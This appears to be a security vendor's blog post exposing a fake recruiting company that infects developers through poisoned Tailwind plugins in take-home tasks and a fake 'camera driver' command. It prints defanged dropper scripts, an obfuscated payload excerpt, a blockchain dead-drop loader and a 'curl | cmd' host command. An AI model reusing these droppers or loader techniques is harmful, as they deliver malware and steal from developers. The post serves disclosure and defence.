


Exposing a new threat actor using the same attack vector that infected Binance.

On 3 November 2026 Binance [published](https://www.binance.com/en/blog/community/3229153443759566763) its account of what has been reported as the largest theft in the history of cryptocurrency. What makes the attack so interesting, beyond the more than $6 billion in stolen assets, is that, according to Binance, a key step was a fake job interview. In September a software engineer was approached on a job platform by a "project director" at a company that did not exist. There were two interviews, one of them a live video call with "HR". In the second, the engineer was asked to download the coding assignment from a code repository onto his work computer. On 29 October, according to Binance, about $6.34 billion in cryptocurrency left its hot wallets. Binance says the FBI has attributed the attack to North Korea.


That three-step lure, a recruiter, an interview, an assignment to download, is the vector. All of these aren't new. Security companies have described it since 2023, and a joint advisory in September counted at least thirty thousand infected machines. This post focuses on the machinery behind it: the company, the accounts, the packages and the servers that have to exist for the assignment to do its work. We started with one bad npm package and followed it to the operation that made it: a careers site, job ads on Indeed and Glassdoor, recruiters with identity-verified LinkedIn profiles and a GitHub profile, a take-home test that loads the package, and a "camera driver" the company's own web server hands to candidates.

This is the story of how the trail ran, what a decoy company is made of, and what a developer can do about it. We will not go deep into the loader itself; it has been taken apart in our earlier posts. The point here is the vector: how a stranger gets a developer to run their code, on their own machine, as a normal step of applying for a job.

## **It started with a hijacked package**

In June 2026 [JFrog described](https://research.jfrog.com/post/hijacked-npm-vscode-tasks-blockchain/) two small npm packages of one developer whose new versions had been poisoned through the developer's own GitHub account. The poisoned versions added a hidden VS Code task that ran when the folder was opened, and the "font" file the task ran was JavaScript. That loader read its server address from a public blockchain transaction, a dead drop, and fetched the rest from there.

The same loader turned up somewhere else. Over the summer a farm of throwaway npm accounts had been publishing look-alikes of popular Tailwind CSS plugins: forms, animations, scrollbar helpers, line-clamp, typography. Each was a copy of the real plugin with the loader appended. The packages lived for hours or days before npm removed them. Then a new one appeared under a new name and a new account.

There were a lot of packages and no people. The accounts had disposable email addresses and nothing else. So we went looking for the same names on GitHub, hoping to understand more about the campaign and the operator.

## **One email address**

One of the packages, `scrollbar-hide-plugin`, was registered by author `sun117` with the address `handy.apple117@gmail.com`. The package even contained label `A10-npm-handy`, giving additional evidence linking the package to this email. The same address signs the commits of a GitHub account called `oleksandr3201`, created on 19 June 2026, whose profile reads "Oleksandr Hryniuk, Project Manager @ AccuraSoftHire", with the company's website, a company email address and a location in Kyiv. Six days after the account was created, a job-scraping dataset recorded its first AccuraSoftHire job ad.

The npm side survives on a registry mirror, with the publisher's name and address in the package record:

```json
"time": 
{ 
"1.0.0": "2026-08-01T08:26:31.583Z", 
"1.0.1": "2026-08-02T14:53:33.851Z" 
},
"_npmUser": 
{
 "name": "sun117", 
 "email": "handy.apple117@gmail.com" 
},
"maintainers": [ 
{ 
"name": "sun117", "email": "handy.apple117@gmail.com" 
} 
]
```

The GitHub side is one `.patch` suffix away:

```
From: oleksandr3201 <handy.apple117@gmail.com>
Date: Fri, 30 Oct 2026 02:14:50 -0700
Subject: [PATCH] Update Readme.md
```

That is the whole hinge: one Gmail address shared between an npm account that publishes the loader and a GitHub account that recruits for a company. Everything after it was checking whether the company was real.

## **The company**

Domain accurasofthire\[.\]com was registered at Hostinger on 17 April 2026\. It serves a careers portal built in React, and it has everything a candidate would look for: an About page with a founding story and a mission, a leadership page with four photographed executives, six client testimonials, a partner portal, a contact form and a job board. 


The job board lists twelve remote roles, from a senior MERN engineer to crypto content writers, each with a hiring status that moves**,** which makes the hiring process look active**.**. The roles sit behind a sign-in, and the careers page says why: once signed in "you will see the full description and can apply with identity and video verification steps".



The ads were real ads on real boards. A job-scraping dataset recorded the first, a senior MERN developer, on 25 June 2026; by August it was on jobbers.io at 60 dollars an hour and, per search snippets, on Indeed, Glassdoor and SimplyHired. The company's LinkedIn page ("IT Services and IT Consulting", Tonopah, Arizona, 93 followers, "2–10 employees") had posted the same ad a week before we looked, with an application link on a third-party recruiting platform, and a new one the morning we did.

Application requires detailed personal details: a legal full name, phone, city, time zone, work authorization,a cover letter and a recorded "verification video", all of it landing in an admin area that lists each candidate with a checkbox labelled "Driver setup".

The company asks the candidate to prove who they are. One thing that might look suspicious is that the location of the company depends on the page: Tonopah, Arizona on LinkedIn, Oregon on its recruiter's hiring banner, Georgia in its staff's job histories and Kyiv in their profile locations

## **The recruiters**

On LinkedIn the company has a page, a logo, a one-line pitch about "reliable talent acquisition", and a staff of four employees. A recruitment manager posts the job in developer groups, where it does what job posts do: people reply that they are available, and she tells each of them to connect first, so the rest happens in private messages. A project manager and a chief operating officer complete the team. All three have the small grey shield next to their names that LinkedIn shows when a verification partner has checked a member’s government ID.


The shield is the part that stops a careful candidate from looking further, so it is worth saying what it means. A government ID bearing that name was checked by LinkedIn's verification partner. It does not confirm the job title, and it says nothing about the company. And the three profiles share a shape that no real staff page has. All of them joined LinkedIn in 2026, in consecutive months, starting in the month the company's domain was registered, and each was verified within weeks of joining. Their degrees and work histories begin just before the company does; the chief operating officer's job at it begins before the domain existed. The site's own leadership page lists two more executives whom we could not find on LinkedIn. 


The evidence that ties the personas to the packages runs through the project manager. His GitHub account, oleksandr3201, was created on 19 June 2026, the month its LinkedIn profile was. It carries the same headshot, the company email and, in GitHub's own social-accounts field, a link to the LinkedIn profile, so the two personas are tied by the account itself. It sat empty for four months while the job ads ran, then was dressed in two days at the end of October: a profile README written like a LinkedIn summary, and a restaurant project copied from another developer's repository with every commit still theirs.

The address on that account is confirmed by GitHub and allows us to make a strong bond between the persona’s GitHub account and the npm account published malware. Its first commit was made in GitHub's own editor, which only accepts an address the account has verified, and GitHub signed it:

```json
{
  "commit": {
    "author": {
      "name": "Oleksandr Hryniuk",
      "email": "handy.apple117@gmail.com",
      "date": "2026-10-30T06:17:11Z"
    },
    "committer": {
      "name": "GitHub",
      "email": "noreply@github.com"
    },
    "verification": {
      "verified": true,
      "reason": "valid",
      "verified_at": "2026-10-30T06:17:11Z"
    }
  }
}

```

That address is the registered owner of the npm account sun117, which published one of the loader packages, the build the operator labelled "handy". The company's other GitHub account, accurasofthire. As of 4 November 2026, it is hidden on GitHub, but we could find its commits in the test tasks of candidates. Approximation by github id, showed that it  was created on 4 August 2022, almost four years before the domain and the operation started. 

We wound two records at GHArchive:  as of 2 May 2024, names actor 110576010 with login moderndev117 making repository 794936206 public under the name moderndev117/paykickstart. Later, at 3 May 2026 push, actor 110576010 with login accurasofthire, repository 794936206 named accurasofthire/landingpage-frontend. Repository numbers are as permanent as account numbers, so we believe that the account was renamed specifically for this operation. Worth to mention that the original account name follows the naming account used in this campaign: sun117, handy.apple117, codeCrafts117, Super117, lancer117. 

If you were a developer checking this company, it would pass. The site works and says the right things. The ads are up on the boards you would search and on LinkedIn, posted by recruiters with verified badges and hundreds of connections. The project manager has a face, a title, a company email, a degree and a GitHub profile with a project of real commits.

The parts that due diligence checks are the parts that were built, and the checks that fail, a time zone on a commit, a COO who predates his company, a headquarters that moves from page to page, are not the ones a candidate makes.

## **The task**

The take-home itself is unremarkable, which is the point. The candidate gets a link to a repository, a React and Redux landing page with a design to match and ninety minutes to match it, and is asked to copy the repository and build on it. Eighteen candidates later published their solutions on GitHub, and every one looks like every other front-end exercise: a Dockerfile, a Create React App skeleton, a Tailwind configuration. The Tailwind configuration is where the trap is. It loads eleven plugins:

```js
  plugins: [
    require("@tailwindcss/container-queries"),
    require("tailwindcss-flip"),
    require("tailwindcss-animate"),
    require('tailwind-scrollbar-hide'),
    require('@tailwindcss/aspect-ratio'),
    require('tailwindcss-opentype'),
    require("tw-elements/plugin.cjs"),
    require('tailwind-custom-forms'),
    require('@formkit/tailwindcss'),
    require("tailwindcss-radix")(),
    require('tailwindcss-fluid-type')
  ],
```

Ten of them are real Tailwind plugins. The one in the middle, `tailwind-custom-forms`, is a copy of the official forms plugin, `@tailwindcss/forms`, with the malware loader pasted onto the end of its file. That line is the only poisoned thing in the repository. Nothing about it runs at `npm install`, so there is no install script for a scanner to flag. The loader runs when Tailwind builds the CSS, and building the CSS is the first thing the task tells the candidate to do. 

That one line changed four times, and the changes show how the operation is run. npm takes each look-alike down within days of a report. Each time it did, the operator edited the task's config to name a new copy of the same package, under a new name, from a new throwaway account: one in August, two more in September. The version candidates copied from GitHub at the end of September has no such line at all. As far as the public repository goes, the task was clean from then on. The poisoned one had moved, not stopped: in October a candidate received the same project as a Bitbucket link, and its config named a fourth look-alike. The packages kept coming too. On 3 November, while we were writing this, the account behind that fourth one published it again, for the third time, with four sibling packages sharing one loader file, and npm removed all five within three hours. The task does not depend on any one package. It depends on there always being one. 

The first of those four packages is the one that gives the operation away, because of who published it. Start with the task. Its repository was created on 5 August 2026 with a single commit, and the commit carries its author's name and address:

```
From: Anton Goss <antongoss11995@gmail.com>
Date: Wed, 5 Aug 2026 09:49:43 +0000
Subject: [PATCH] Initial commit
```

GitHub credits that commit to the company's own account, accurasofthire, which means the address was registered on it. We found no other trace of “Anton Goss.” What matters is the address, because it appears in exactly one other place. Three days before the commit, an npm account called goss1000 had published tailwind-custom-forms, the package the task's config names, and the registry recorded who did it:

```json
{
  "_npmUser": {
    "name": "goss1000",
    "email": "antongoss11995@gmail.com"
  },
  "0.5.2": "2026-08-02T14:58:10.938Z"
}

```

The evidence indicates that the person who wrote the interview exercise had published the package it loads. The time of that publication does the rest. In the thirteen minutes around it, three other accounts from the this campaign were publishing their own look-alikes:

```
14:53:25  evaward1     tailwindcss-anim       1.3.5
14:53:33  sun117       scrollbar-hide-plugin  1.0.1
14:58:10  goss1000     tailwind-custom-forms  0.5.2
14:59:31  georgeodom1  tailwind-anim          1.1.1, then five more by 15:06:51
```

evaward1 is another account we tied to this campaign. sun117 is the account registered to the recruiter's address. In our assessment, the recruiter, the task author and the packages are one operation. 

After we found a company, we've got additional evidence of a target  of this campaign. In October 2026, a developer posted on LinkedIn that they had received a Bitbucket link to a React take-home project from AccuraSoftHire, were already suspicious, and used an AI coding assistant that flagged the malicious code.

## **The site hands out the loader itself**

We had assumed the careers site was a front: something to make the company look real while the packages did the work. Reading its JavaScript bundle changed that. The site has a second delivery path that has nothing to do with the take-home, and a third that was built and waiting.

Step two of the application is "Video verification": the candidate records a short clip in the browser. Partners get the same step under the name "Partner introduction". Its failure is scripted, and the script is short. The component reads one field of the signed-in user's profile, `driverStatus`, which the admin page shows as the "Driver setup" checkbox. While it is zero, the Start button never asks the browser for a camera. It shows "Checking for a camera…" for six seconds and then fails:

```js
const Ny = "Sorry, we detected that your system does not have a compatible camera environment. Please contact the support team.",
      Sy = 6e3;
function ky() {
  const { user: r } = _t(),
        u = Number(r?.driverStatus ?? 0) === 0,
  ...
  async function K() {                       // the Start button
    if (d.stage === "idle" && u) {
      o(G => ({ ...G, stage: "detecting" }));
      D.current = setTimeout(() => { o(G => ({ ...G, stage: "support_team" })) }, Sy);
      return;
    }
    if (d.stage === "idle") {                // only once the server says the driver is installed
      try { await navigator.mediaDevices.getUserMedia({ video: { facingMode: "user" } }) ... stage "ready_record" }
      catch { stage "no_camera" }
    }
  }
```

The box then shows "Camera environment not compatible" and the constant above. The camera check does not check the camera. `getUserMedia` is only reached for a user the server has already marked as having run the "driver". 

The candidate can go on without a clip. The application is then saved with the status `driver_guidance_acknowledged`, and the admin's view of it reads "No verification video on file — applicant continued with the alternate path (no camera upload)."

The fix lives on another page of the site, /vscode-setup, headed "Technical onboarding" and "Recommended VS Code configuration": "Standard settings bundle for candidates and interview workflows. Your detected environment: Windows." The page builds one command from the browser's user agent and the site's own address:

```js
curl -L -o CameraDriverUpdate.msi     "hxxps://accurasofthire[.]com/camera-driver/setup-win"
curl -L -o CameraDriverUpdate-mac.zip "hxxps://accurasofthire[.]com/camera-driver/setup-mac"
curl -L -o CameraDriverUpdate.deb     "hxxps://accurasofthire[.]com/camera-driver/setup-linux"
```

with a "Copy command" button and the instruction: "Copy the line below, run it in a terminal on the machine you will use for this process, then confirm completion when you are signed in (so we can match your account to the checklist)." Below it, a button labelled "Mark workstation setup complete" writes the acknowledgement to the candidate's record, after which, the page promises, "the optional notice on Apply and Profile will not appear for you". It adds, for anyone who wonders: "we do not execute code in your browser to inspect your terminal." That is true. The code runs in the terminal. The admin's user list keeps the score in a column called "Driver setup", a checkbox per registered candidate.



We took the three installers apart in a sandbox. They are thin droppers the only goal of which is to imitate installation of the driver and fetch a bootstrap script from the careers site and run it. The Windows one, served as `/camera-driver/bootstrap-win?flag=10`, installs Node if the machine has none (its messages call Node "the plugin"; the window title is "The plugin was installed successfully."), then:

```
set "PAYLOAD_URL=%SITE_URL%/camera-driver/payload.js"
curl -s -L -o "%PAYLOAD_JS%" "%PAYLOAD_URL%"
start "" /b cmd /c ""%NODE_EXE%" "%PAYLOAD_JS%" & del /f /q "%PAYLOAD_JS%""
echo [SUCCESS] Driver plugin installation completed successfully.
curl -s -L "%SITE_URL%/camera-driver/ack" >nul 2>&1
start "" cmd /c del /f /q "%~f0"
```

It downloads the payload, starts it in the background, deletes it, tells the server, and deletes yourself. The macOS and Linux script is the same flow in bash, down to the `nohup` and the self-delete:

```sh
SITE_URL="${ACCURASOFT_SITE:-hxxps://accurasofthire[.]com}"
PAYLOAD_URL="${SITE_URL%/}/camera-driver/payload.js"
...
nohup bash -c "\"$NODE_EXE\" \"$PAYLOAD_JS\"; rm -f \"$PAYLOAD_JS\"" >/dev/null 2>&1 &
...
(sleep 5 && rm -f "$0") &
curl -s "hxxps://accurasofthire[.]com/camera-driver/ack" >/dev/null 2>&1
```

payload.js is 13 KB and begins:

```js
global.i = 'A10-online**';const __0x04b12=77;function __0xa9e27(){return 3279;}(function(_0x05a598){var _0x05a598a=["Z2xvYmFsLnI9cmVxdWlyZTtpZih0eXBlb2YgbW9kdWxlPT09J2", ...
```

The first statement is the build marker, the string the loader sends home in a `Sec-V` header so the operator knows which build is calling. Every look-alike package in the malware family carries one; this one says "online". The rest is a base64 string array handed to `eval(atob(...))`. Decoded, it is the farm's loader:

```js
const SENDER='0xa322E5f3D311D3080e6f0121063e9aDC2490Ef1a'.toLowerCase();
const INDEXER_URL='hxxps://eth[.]blockscout[.]com/api';
...
const[ip1,ip2]=decodeAddress(match.tx.to);
...
await run_loader(new URL(`hxxp://${ip1}:443/0x/cls`),'q4FZkxX{!h,Sr3=@',!1);
await run_loader(new URL(`hxxp://${ip1}:443/0x/ls`),'y-p_>d$0B&@^1aQk',!0)
```

It reads the newest transaction sent by one Ethereum address, unpacks two server addresses from the recipient field, fetches two stages over port 443 in plain HTTP, XOR-decodes them with those keys, runs one in the current process and the other as a detached Node process. Same sender, same paths, same keys, same Chrome user agent as the Tailwind packages. 

```
2026-10-19T10:22:59Z  nonce 608  to 0x67B38e9b67B38E9b68656c6C6f6970626f742121
67.B3.8E.9B = 103.179.142.155, twice, then "helloipbot!!"
```

The careers site is not standing in front of the malware. It is one of the places the malware is served from.

The third path is quieter. A "job alerts" page on the site offers a Chrome extension, and a Windows desktop app that the page says is coming, and walks the candidate through installing the extension by hand: open chrome://extensions, turn on Developer mode, Load unpacked, pick the extensions/job-new-alerts folder, copy the extension ID, then run a setup script from the site, setup-full-windows.ps1. That script downloads a second one and runs it with the execution policy bypassed; the second registers a native messaging host named com.accurasoft.jobalerts for Chrome and Edge in the user's registry, and offers a scheduled task that polls the site every five minutes with the browser closed. The host itself is 75 lines and has one job beyond answering "ping":

```
const SETUP_CMD ="curl hxxp://accurasofthire[.]com/notification-settings-win?download=1 | cmd";
...
if (cmd === "runWinNotificationSetup") { ... await execAsync(SETUP_CMD, { ...
```

What that fetches is a nine-line batch file: make a `.nvm` folder in the user's profile, download `notification-bootstrap-win?flag=10` into it as bootstrap.cmd, start it hidden, clear the screen three times. That bootstrap is the camera one with the payload step missing: on 2 November it installed Node and then ran `node -e ""`, an empty program, and printed **"\[SUCCESS\] Notification setup completed successfully."** The path is complete and the payload slot is empty. Whether it was ever filled, or is filled only for a signed-in candidate, we could not tell.

A failing camera check fixed by a curl command is not new. Sekoia described the same lure in March 2025 under the name ClickFake Interview, with a Go backdoor behind it, and Silent Push found it a month later on the application site of a front company called BlockNovas. AccuraSoftHire's version drops the npm loader instead, dresses the command as a "recommended VS Code configuration", and leaves room in every download for the site that served it and the candidate who fetched it.

**An earlier name on the task**

The task is older than the company name on it. Every candidate copy from April and May starts from the same root commit, made on 20 April 2026, three days after the domain was registered, by a git identity called codeCrafts117 that GitHub credits to a second hidden hiring account, hiretechpartners. The project was called keepcodein then. It already had the trap in it: a look-alike of Tailwind's line-clamp plugin, published four days earlier, whose loader reads dead drops on Tron and Aptos rather than Ethereum. So the company's take-home is tied by indicator to an earlier wave, before AccuraSoftHire had a recruiter or a job ad. The root commit, read from one candidate's copy:

```
commit 5a50d985  "Page init"
Author:    codeCrafts117 <seo.theconnectivemediagroup@gmail.com>   2026-04-20 08:45:19 -0700
Committer: codeCrafts117 <seo.theconnectivemediagroup@gmail.com>
credited by GitHub to the account: hiretechpartners
```

The earlier identity fits a pattern we kept meeting. Every hiring persona in this operation comes with an npm account on the same email address: the recruiter has sun117, the task author has goss1000, and codeCrafts117's address belongs to an npm account whose one package lived for a few minutes on 31 July before npm removed it. In our assessment, the people who recruit and the people who publish are the same people, and they do not separate the addresses.

In May the AccuraSoftHire account took the task over and edited it in its own name, adding a README and a "Why choose us" image and pinning a newer look-alike. Later it rewrote that commit to pin a newer one still, and kept the May dates. The rewrite shows that the commit's lockfile resolves a package version published 24 days after the commit claims to have been made. Backdating is a habit on both sides of this story, and lockfiles are bad at keeping secrets.

Then the April identity did something that changes what "recruiter" means here. Between 28 April and 6 May, eight to sixteen days after it wrote the task, codeCrafts117 appears as the committer on 23 rewritten commits in 23 repositories belonging to nine developers. Each rewrite keeps the owner's name and the original date and adds a hidden loader: in a config file, or as the VS Code task and fake font of the hijacked packages we started from. One developer, a job seeker, had ten repositories rewritten in four minutes, with the push scripts of a known commit-tampering tool listed in .gitignore. These commits were made with the owners' own push access. One of them, with the owner's name and address removed:

```
commit e5f6573f  "Add comprehensive project README …"     files: .gitignore, README.md, postcss.config.mjs
Author:    <the repository's owner>                       2026-03-19 22:28:37 (kept)
Committer: codeCrafts117 <the owner's own address>        2026-04-28 11:06:58 -0700
```

The committer name is the hiring persona's; the committer address is the owner's own. This suggests that a token, or a session on each developer's machine, was in the operator's hands. 

## **Where this sits**

This playbook has been out in the open for years. First documented by Unit 42 as "Contagious Interview," it has since been tracked by dozens of security vendors and international agencies. A recent multinational advisory finally revealed the massive scale of the operation: tens of thousands of infected devices globally and thousands of drained crypto wallets in less than a year. Behind the scenes, the attackers run an industrial-scale operation, spinning up fake front companies like the one, described by our pos,  to seed hundreds of poisoned code repositories across the web. 

IoC, such as markers “`A10-npm-handy`” in the code, network paths /0x/cls in the payload and a failing camera check method are the similar to the campaigns attributed to the North Korean hackers this year: PolinRider and ClickFake

## **For developers**

* A legitimate interview rarely need you to install a driver, and we know of no employer that needs a "recommended VS Code configuration" delivered as a curl command. Treat a camera check that fails and hands you a command as a likely attack, whatever the site looks like.  
* Open unknown projects in VS Code's restricted mode, and read `.vscode/tasks.json` before you trust the folder.  
* Treat a take-home as untrusted code from a stranger. Run it in a throwaway virtual machine or container with no tokens, SSH keys, wallet files or browser profiles on it.  
* Compare dates. A lockfile that resolves a version published after the commit that added it has likely been rewritten.  
* A checkable company is not a safe one. The site, the ads, the team page, the GitHub activity and the recruiter's profile are the cheapest parts to build, and they are built first. A LinkedIn verification badge is an ID check,, not a company. Check what cannot be built cheaply: a person you know who has been paid by them, a registration somewhere a company has to register, a recruiter whose history predates the job ad.

## **Summary**

According to Binance, the intrusion involved  a recruiter on a job platform, two interviews, and a coding assignment downloaded from a repository. We have found no link between AccuraSoftHire and that intrusion. That is the whole vector, and this post has tried to show what it looks like from the inside, in one operation that runs it. AccuraSoftHire is a company built over a few months: a careers site with an About page, a leadership team and twelve roles in various states of being filled; job ads on Indeed and Glassdoor; three LinkedIn recruiters with government-ID verification badges, and a project manager whose GitHub account is registered to the same address as one of the package publishers. Behind it, one take-home that loads one look-alike package, re-pointed every time npm removes one, and a "camera driver" that the company's own web server hands to candidates and that carries the same loader. In our assessment, there is no ambiguity about what the company is for. A company that serves malware from its own careers site is not a company with a security problem.

Over the course of this research we met a few other operations using the same techniques with tricks of their own: a poisoned lockfile instead of a poisoned plugin, exchange-branded "trading bots" that install everything the moment the folder is opened in VS Code. They share the idea with AccuraSoftHire and none of its indicators. 

The operators do not need an exploit. They need a developer to do what a job application asks, on the machine they work on. Who is behind any given instance is a question for the vendors and the FBI; what this record shows is that the lure is the same wherever it turns up, that more than one crew runs it, and that the cover is built to pass exactly one check, a job seeker's, and is careless about every other. 

**Indicators**

The full list is in the case record. The names a reader is most likely to meet:

* **Domains:** accurasofthire\[.\]com (careers site and loader server)  
* **GitHub:** accurasofthire and hiretechpartners (hidden hiring accounts), oleksandr3201 (recruiter persona)  
* **LinkedIn:** the company page AccuraSoftHire; three recruiter persona profiles, including in/oleksandr-hryniuk-230b93415 (linked from the GitHub account); the ad's application link on app.testedrecruits.com (a third-party recruiting platform, not an indicator in itself). The persona names and photos may belong to real people who are not involved.  
* **Email addresses:** handy.apple117\[@\]gmail.com, antongoss11995\[@\]gmail.com, oleksandr.hryniuk\[@\]accurasofthire.com, support\[@\]accurasofthire.com  
* **npm:** tailwind-custom-forms, tailwindcss-contact-forms, tailwind-form-styles, tailwind-forms-kit, tailwind-lines-clamps, tailwind-clamps-line, tailwind-lineclamp (the packages the task pinned); accounts goss1000, sun117, evaward1, georgeodom1, helmets.  
* **Dead drop:** Ethereum sender 0xa322E5f3D311D3080e6f0121063e9aDC2490Ef1a; stage paths /0x/cls and /0x/ls on port 443\.  
* **Markers:** `A10-online`\*\* (camera-driver payload), `A10-npm-handy`, `A10-new_npm`.  
* Malicious npm packages:  
  * tailwind-custom-forms \- XRAY-1044121  
  * tailwindcss-contact-forms \- XRAY-1075528  
  * tailwind-form-styles \- XRAY-1089020  
  * tailwind-forms-kit \- XRAY-1096148  
  * tailwind-lines-clamps \- XRAY-1157325  
  * tailwind-clamps-line \- XRAY-990252  
  * tailwind-lineclamp \- XRAY-1157326  
  * scrollbar-hide-plugin \- XRAY-1044162  
  * tailwindcss-anim \- XRAY-1041090  
  * tailwind-anim \- XRAY-1041142

Important Notice: This blog post is provided for general informational purposes only. It reflects information available as of the publish date shown at the top of this post, and JFrog may not update it. It is provided “as is,” without warranty of any kind, is not legal, compliance, or security advice, and does not guarantee any security, product, financial, or legal outcome. To the extent permitted by law, JFrog is not liable for any decision made or action taken in reliance on it. Third-party statistics and studies are reported as published by their sources and have not been independently verified by JFrog. Results depend on your environment, situation, and configuration. Product capabilities vary by edition and deployment model. Nothing in this blog post creates any commitment or modifies any agreement. Your use of JFrog products is governed by your agreement with JFrog. JFrog is a registered trademark of JFrog Ltd. in the United States. All other trademarks referenced in this document are the property of their respective owners, and their use does not imply any affiliation with or endorsement by them.
